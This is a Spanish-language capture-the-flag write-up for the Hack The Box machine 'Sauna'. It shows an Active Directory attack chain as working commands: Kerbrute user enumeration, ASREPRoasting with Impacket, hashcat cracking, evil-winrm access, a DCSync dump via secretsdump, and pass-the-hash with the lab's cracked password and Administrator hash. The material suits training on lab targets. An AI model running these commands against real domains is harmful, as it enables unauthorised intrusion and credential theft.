# Sauna

`Sauna` es una máquina Windows de dificultad fácil que cuenta con enumeración y explotación de Active Directory. Los posibles nombres de usuario se pueden derivar de los nombres completos de los empleados que figuran en el sitio web. Con estos nombres de usuario, se puede realizar un ataque `ASREPRoasting`, que da como resultado un hash para una cuenta que no requiere autenticación previa de Kerberos. Este hash se puede someter a un ataque de fuerza bruta fuera de línea, con el fin de recuperar la contraseña de texto simple para un usuario que puede usar `WinRM` en el equipo

La ejecución de `WinPEAS` revela que otro usuario del sistema se ha configurado para iniciar sesión automáticamente e identifica su contraseña. Este segundo usuario también tiene permisos de administración remota de Windows. `BloodHound` revela que este usuario tiene el derecho extendido _DS-Replication-Get-Changes-All_, que le permite volcar hashes de contraseñas del controlador de dominio en un ataque `DCSync`. Al ejecutar este ataque se devuelve el hash del administrador del dominio principal, que se puede usar con `psexec.py` de `Impacket` para obtener un shell en el equipo como `NT_AUTHORITY\SYSTEM`.

<figure><figcaption></figcaption></figure>

## Reconnaissance

Comenzaremos a realizar un escaneo de todos los puertos abiertos de la máquina víctima.&#x20;


```bash
nmap -p- --open -sS --min-rate 1000 -vvv -Pn -n 10.10.10.175 -oG allPorts
```


<figure><figcaption></figcaption></figure>

Procederemos a extraer los puertos con nuestra función **extractPorts** para tenerlos copiados en la clipboard

```bash
extractPorts allPorts
```

<figure><figcaption></figcaption></figure>

Procederemos a lanzar scripts de Nmap para intentar descubrir algunas vulnerabildades sobre los puertos abiertos que hemos encontrado. Hemos encontrado el nombre del AD (EGOTISTICAL-BANK.LOCAL).

```
nmap -sCV -p53,80,88,135,139,389,445,464,593,636,3268,3269,5985,9389,49667,49673,49674,49677,49689,49696 10.10.10.175 -oN targeted
```

<figure><figcaption></figcaption></figure>

Procederemos a añadir en nuestro archivo **/etc/hosts** el nombre del dominio con la IP de la máquina.

```
catnp /etc/hosts | grep EGOTISTICAL-BANK.local
```

<figure><figcaption></figcaption></figure>

Probaremos de acceder al sitio web para ver que nos encontramos, a primera vista no encontramos nada interesante.

<figure><figcaption></figcaption></figure>

## User Enumeration

Procederemos a intentar a realizar la enumeración de usuarios del AD a través de diferentes métodos.

### &#x20;Kerberos User Enumeration&#x20;

Como hemos visto que Kerberos (Port 88) estaba expuesto, a través de la herramienta de **Kerbrute** procederemos a enumerarlos a través de un diccionario de secList&#x73;_._ Después de un buen rato, solamente hemos podido encontrar 3 usuarios. Tomaremos nota de dichos usuarios.


```bash
kerbrute userenum --dc 10.10.10.175 -d EGOTISTICAL-BANK.local /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt
```


<figure><figcaption></figcaption></figure>

### Information Leakage

Investigando la página web, nos encontramos que existe una página donde indican los nombres de los empleados de la empresa, esto nos puede servir útil para intentar descubrir posibles usernames a través de sus nombres, apellidos, etc.

<figure><figcaption></figcaption></figure>

Procederemos a crear un archivo llamado "users.txt" en el cual pondremos los nombres y apellidos de los usuarios encontrados en el sitio web.

```bash
catnp users.txt
```

<figure><figcaption></figcaption></figure>

A través de la herramienta de [**username-anarchy**](https://github.com/urbanadventurer/username-anarchy) procederemos  a generar posibles nombres de usuario a través de combinaciones de sus nombers y apellidos, etc.&#x20;


```bash
username-anarchy --input-file users.txt --select-format first,last,flast,first.last,firstl > generated-unames.txt
```


### ASRepRoast Attack (GetNPUsers)

Con el **Impacket** de **GetNPUsers.py** procederemos a realizar un ataque para enumerar usuarios con el atributo de autenticación previa don't require Kerberos (DONT\_REQ\_PREAUTH). Lo que realiza este comando es recorrer línea por línea el archivo generado en el paso anterior para probar con todos los usuarios.


```bash
while read username; do GetNPUsers.py egotistical-bank.local/"$username" -request -no-pass -dc-ip 10.10.10.175 >> hash.txt; done < generated-unames.txt 2>/dev/null
```


<figure><figcaption></figcaption></figure>

Procederemos a comprobar el resultado del ataque, el archivo "hash.txt". Comprobaremos que hemos obtenido un tiquet GTG para el usuario "fsmith" con su respectivo hash de Krb5.

```bash
catnp hash.txt
```

<figure><figcaption></figcaption></figure>

Procederemos a guardarnos el hash del usuario "fsmith" en un archivo nombrado "fsmith.hash"


```bash
echo '$krb5asrep$23$fsmith@EGOTISTICAL-BANK.LOCAL:4095933151da82e92a4df0d15357d70e$0cd4618143142a11f8681e4265a36886b95de4f9a8af9eea72320389fa1c012f9bde706b6854acb2309b587b2f5894a21bac2c2cab00cb2ba2e76467f911fa591fb1cfb892cb04e9ae2fd63e6a5c81468911478919db03741a0922f15551dd6e9b833a00e91eea6c76d3dc37a0924f91af0e510cbba04a6187bc709376357f38f3da94814d3c491c429dc1faca6f01bbe532b2fa01357713f4a6c9b59373c6dd241e2ebf706ac81148e442033a3dba95e0b7481acd832777838228b9995932caa76ec31cb943c5b127e021cb5f21d7ed9c5764efe1e1fec9bb303802e0625978944dc8e521787b288161d387bcef43c348b95699a5ac2ef33646a23d2cef743c' > fsmith.hash
```


<figure><figcaption></figcaption></figure>

Comprobaremos que se nos ha guardado correctamente el contenido del hash en el archivo creado.

```bash
catnp fsmith.hash
```

<figure><figcaption></figcaption></figure>

A través de la herramienta de **hashcat** procederemos a intentar desencriptar el hash encontrado a través de un diccionario, para que vaya probando todas las contraseñas del diccionario para ver si alguna al generar el hash coincide con el hash del usuario.

Finalmente nos encontramos que la contraseña ha estado crackeada.&#x20;

```bash
hashcat -m 18200 fsmith.hash /usr/share/wordlists/rockyou.txt
```

<figure><figcaption></figcaption></figure>

## Privilege Escalation

Una vez obtenida la contraseña del usuario "fsmith", como hemos visto que el servicio de WinRM estaba expuesto, procederemos con **evil-winrm** de conectarnos con las credenciales conectadas. Comprobamos que hemos podido acceder sin problemas y hemos encontrado la flag de "user.txt".

```
evil-winrm -i 10.10.10.175 -u fsmith -p 'Thestrokes23'
```

<figure><figcaption></figcaption></figure>

### winPEAS

Tendremos que tener abierto el **evil-winrm** des de donde disponemos el ejecutable de winPEAS.exe para asi ejecutar el "upload" a la máquina. Una vez subido en la máquina, procederemos a ejecutarlo.

```
upload winPEASx64.exe
./winPEASx64.exe
```

<figure><figcaption></figcaption></figure>

Comprobaremos que hemos encontrado un AutoLogon con las credenciales de un usuario.

<figure><figcaption></figcaption></figure>

### DCSync Attack - Secretsdump

El **DCSync Attack** es una técnica de ataque utilizada en el ámbito de la ciberseguridad para obtener contraseñas y otros secretos almacenados en el controlador de dominio de un entorno de Active Directory. Esta técnica se basa en la funcionalidad de replicación de Active Directory y permite a un atacante que tenga ciertos privilegios obtener hashes de contraseñas y otros datos de cuentas, incluyendo cuentas de administrador.

Procederemos a través del **Impacket-secretsdump** de obtener los hashes NTLM y Kerberos del DC con el usuario que hemos encontrado y su respectiva contraseña.

Comprobamos que nos ha dumpeado el hash de la cuenta de "Administrator".


```bash
impacket-secretsdump -just-dc EGOTISTICAL-BANK.LOCAL/svc_loanmgr@10.10.10.175
```


<figure><figcaption></figcaption></figure>

### PassTheHash

Una vez obtenido el hash del usuario "Administrator", procederemos a conectarnos al WinRM con **evil-winrm** indicando que queremos acceder con el usuario "Administrator" y el hash encontrado.&#x20;

Comprobaremos que ganamos acceso a la máquina como usuario Administrator y la flag del "root.txt".

```bash
evil-winrm -i 10.10.10.175 -u Administrator -H '823452073d75b9d1cf70ebdf86c7f98e'
```

<figure><figcaption></figcaption></figure>
